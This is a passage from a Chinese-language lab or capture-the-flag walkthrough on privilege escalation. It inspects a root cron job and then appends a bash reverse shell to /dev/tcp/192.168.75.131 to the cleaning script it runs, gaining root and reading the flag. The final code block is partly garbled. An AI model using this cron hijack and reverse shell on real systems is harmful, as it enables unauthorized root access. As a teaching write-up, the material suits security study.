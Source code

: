 - 尝试查看`crontab`是否有`root`运行的自动化任务
    
    ```php
    bash-4.2$ cat /etc/crontab
    cat /etc/crontab
    SHELL=/bin/bash
    PATH=/sbin:/bin:/usr/sbin:/usr/bin
    MAILTO=root
    # For details see man 4 crontabs
    
    # Example of job definition:
    # .---------------- minute (0 - 59)
    # |  .------------- hour (0 - 23)
    # |  |  .---------- day of month (1 - 31)
    # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
    # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
    # |  |  |  |  |
    # *  *  *  *  * user-name  command to be executed
    */5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1
    ```
    
    文件内容是：
    
    ```php
    bash-4.2$ cat /etc/script/CleaningScript.sh
    #!/bin/bash
    
    rm -rf /var/log/httpd/access_log.txt
    ```
    
    存在一条每隔五分钟 使用root权限清理某些东西的自动化任务
    
- 我们可以尝试追加反弹shell在该脚本尾部，让它使用root权限来执行反弹shell代码
    
    提权成功，获得root权限，并且读取flag内容
    
    ```php
    bash-4.2$ echo "/bin/bash >& /dev/tcp/192.168.75.131/1235 0>&1" >> /etc/script/CleaningScript.sh
    //
    <& /dev/tcp/192.168.75.131/1235 0>&1" >> /etc/script/CleaningScript.sh       
    ```
    